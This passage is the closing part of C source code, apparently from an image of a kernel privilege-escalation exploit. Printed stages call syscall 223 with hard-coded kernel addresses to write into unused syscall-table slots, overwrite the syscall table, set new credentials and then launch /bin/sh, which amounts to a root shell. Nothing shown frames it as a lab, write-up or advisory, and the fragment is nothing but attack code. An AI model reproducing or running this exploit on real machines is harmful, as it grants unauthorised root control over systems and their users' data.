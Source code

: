 ```
    puts("Stage 1 - add padding");
    syscall(223, "\x24\xf9\x03\x80", sct + SYS_EMPTY_A);
    syscall(223, "\x60\xf5\x03\x80", sct + SYS_EMPTY_B);
    puts("Stage 2 - overwrite syscall table");
    syscall(SYS_EMPTY_B, syscall(SYS_EMPTY_A, 0));
    puts("Stage 3 - set new cred");
    system("/bin/sh");
    return 0;
}
```

